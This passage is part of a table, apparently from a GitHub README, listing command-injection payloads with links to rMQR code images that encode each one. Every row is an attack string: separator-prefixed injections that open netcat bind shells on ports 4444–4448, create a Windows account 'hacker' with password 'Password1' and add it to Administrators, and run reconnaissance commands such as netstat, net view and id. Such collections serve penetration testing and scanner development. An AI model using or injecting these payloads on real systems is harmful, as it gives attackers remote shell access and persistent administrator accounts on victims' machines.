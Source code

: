 | `& ls -l /var/www/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/228.png) |
| `&& ls -l /var/www/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/229.png) |
| `ls -l /var/www/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/230.png) |
| `\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/231.png) |
| `\n/bin/ls -al\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/232.png) |
| `\| nc -lvvp 4444 -e /bin/sh\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/233.png) |
| `; nc -lvvp 4444 -e /bin/sh;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/234.png) |
| `& nc -lvvp 4444 -e /bin/sh&` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/235.png) |
| `&& nc -lvvp 4444 -e /bin/sh &` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/236.png) |
| `nc -lvvp 4444 -e /bin/sh` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/237.png) |
| `nc -lvvp 4445 -e /bin/sh &` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/238.png) |
| `nc -lvvp 4446 -e /bin/sh\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/239.png) |
| `nc -lvvp 4447 -e /bin/sh;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/240.png) |
| `nc -lvvp 4448 -e /bin/sh&` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/241.png) |
| `\| net localgroup Administrators hacker /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/243.png) |
| `; net localgroup Administrators hacker /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/244.png) |
| `& net localgroup Administrators hacker /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/245.png) |
| `&& net localgroup Administrators hacker /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/246.png) |
| `net localgroup Administrators hacker /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/247.png) |
| `netstat` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/253.png) |
| `;netstat -a;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/254.png) |
| `\| netstat -an` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/255.png) |
| `; netstat -an` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/256.png) |
| `& netstat -an` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/257.png) |
| `&& netstat -an` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/258.png) |
| `netstat -an` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/259.png) |
| `\| net user hacker Password1 /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/260.png) |
| `; net user hacker Password1 /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/261.png) |
| `& net user hacker Password1 /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/262.png) |
| `net user hacker Password1 /ADD` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/264.png) |
| `\| net view` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/265.png) |
| `; net view` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/266.png) |
| `& net view` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/267.png) |
| `&& net view` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/268.png) |
| `net view` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/269.png) |
| `\nid\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/270.png) |
| `\nid;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/271.png) |